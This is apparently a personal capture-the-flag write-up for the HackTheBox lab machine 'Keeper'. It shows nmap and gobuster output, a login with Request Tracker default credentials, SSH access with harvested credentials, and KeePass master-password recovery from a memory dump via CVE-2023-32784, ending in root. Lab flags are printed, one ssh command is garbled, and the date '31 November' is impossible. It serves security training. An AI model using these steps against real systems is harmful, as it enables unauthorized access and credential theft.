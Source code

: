 ```yaml
---
created_date: 31  November 2023
updated_date: 31 November 2023
type: linux
---
```


##### Machine Information
```
IP Address: 10.10.11.227
Hostname:
Operating System:
Exploit & Port:
Privilege Escalation:
Credentials:

Path to Box:

-> NIX01 - 192.168.1.1
--> NIX02 - 192.168.1.2
```
### High-Level Summary

A brief description of the attack chain with machine names, including the depth of compromise should be included here.

-------------
### Initial Scanning

- [ ] `Ping`
- [ ] `Rustscan`
- [x] `Quick TCP Nmap`
- [x] `Full TCP Nmap`
- [ ] `Full UDP Nmap`

#ping
- Pinging to ensure box is up, get brief OS information.
```bash
ping $ip_address
```

#rustscan 
- Typically way faster than nmap, gives very brief port information - but enough to get started while other nmap scripts run.
```bash
rustscan -a $ip_address
```

#quick #tcp #nmap 
- Quick Nmap to get initial port information.
```bash
[root💀~] [10.10.14.106] [2023-11-30 08:54:26] 
 └─╼ # nmap -sC -sV -Pn 10.10.11.227
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-30 08:55 EST
Nmap scan report for 10.10.11.227
Host is up (0.027s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.46 seconds

```

#full #tcp #nmap 
- Full TCP Nmap to get all port information.
```bash
[root💀~] [10.10.14.106] [2023-11-30 08:55:19] 
 └─╼ # nmap -sC -sV -Pn -p- 10.10.11.227
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-30 08:55 EST
Nmap scan report for 10.10.11.227
Host is up (0.038s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.54 seconds

```
##### Initial Scanning Notes:
#initial #scanning #notes
- port 80 for initial access, `dirbust` `burp` should be the only way forward
-------
###### Dirbusting

```bash
[root💀~] [10.10.14.106] [2023-11-30 08:56:23] 
 └─╼ # gobuster dir -u http://10.10.11.227:80 -w /usr/share/dirb/wordlists/common.txt -x php,txt,html,asp,aspx
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.227:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt,html,asp,aspx
[+] Timeout:                 10s
===============================================================
2023/11/30 09:02:34 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 149]
/index.html           (Status: 200) [Size: 149]
Progress: 27627 / 27690 (99.77%)
===============================================================
2023/11/30 09:03:52 Finished
===============================================================
```
nothing from dirbusting

navigating to the website show's this
![[Pasted image 20231130093436.png]]
clicking on the link leads to this, after adding `10.10.11.227        tickets.keeper.htb` to `/etc/hosts`
navigating to the website then shows this
![[Pasted image 20231130093708.png]]
googling `REQUEST TRACKER` default credentials shows the credentials to be `root:password`
![[Pasted image 20231130094000.png]]
after logging into the website navigate to `Search -> Tickets -> Recently Viewed` to see `#3000000: Issue with Keepass CLient on Windows`
![[Pasted image 20231130103305.png]]
this is probably the way forward considering that `KEEPER` is the name of the box.

after clicking on the ticket the person sending the `ticket` is named `Inorgaard (Lise Norgaard)` click on the name.
![[Pasted image 20231130103916.png]]
that brings us to the `user profile` which has several menus to interact with
![[Pasted image 20231130104217.png]]
click `edit` to see credentials
![[Pasted image 20231130104314.png]]
credential are `lnorgaard:Welcome2023!`'

sshing in with `lnorgaard@10.10.11.227`
```bash
[root💀/usr/share/wordlists/dirbuster] [10.10.14.106] [2023-11-30 10:49:02] 
 └─╼ # ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Thu Nov 30 16:27:14 2023 from 10.10.14.109
lnorgaard@keeper:~$ ls
KeePassDumpFull.dmp  passcodes.kdbx  poc.py  RT30000.zip  user.txt
lnorgaard@keeper:~$ 
lnorgaard@keeper:~$ cat user.txt
927559cd88c4f19bb5715b82058d6c08
```
![[Pasted image 20231130105516.png]]
listed files in directories with `ls`

user.txt flag
```bash
[root💀~/_htb] [10.10.14.106] [2023-11-30 12:50:15] 
 └─╼ # cat user.txt
927559cd88c4f19bb5715b82058d6c08
```
hosting a `python3 -m http.server` to pull over files
![[Pasted image 20231130110436.png]]
pulling over all files with `wget http://10.10.11.227:8000/KeePassDumpFull.dmp`
![[Pasted image 20231130110516.png]]
exploiting `CVE-2023-32784`
```
[root💀~/_htb] [10.10.14.106] [2023-11-30 11:08:41] 
 └─╼ # python3 poc.py KeePassDumpFull.dmp 
2023-11-30 11:08:49,695 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de

```
![[Pasted image 20231130111520.png]]
when throwing in the first line `●,dgr●d med fl●de` into google, google spits out the `DANISH` translation of `Rødgrød med fløde`
![[Pasted image 20231130113636.png]]
downloaded `keepass2` on linux machine to attempt to utilize the password with the command `keepass2 passcodes.kdbx` by utilizing  the password `rødgrød med fløde` with lowercase letters.

that spits out a `Putty User Key File`, this can be turned into a `id_rsa` key and used to authenticate
![[Pasted image 20231130114250.png]]
save `putty_key` into a file
![[Pasted image 20231130124514.png]]
move `putty_key` into `id_rsa.ppk` , ppk files are the `putty` designator
`puttygen id_rsa.ppk -O private-openssh -o id_rsa` to change the `putty` file into a usable `ssh key` named `id_rsa`
`ssh -i id_rsa.ppk -O private-openssh -o id_rsa` to utilize the ssh key
![[Pasted image 20231130124631.png]]
i am root
```bash
root@keeper:~# cat root.txt
96dc83780818d66135f32cef6c6b6e51
```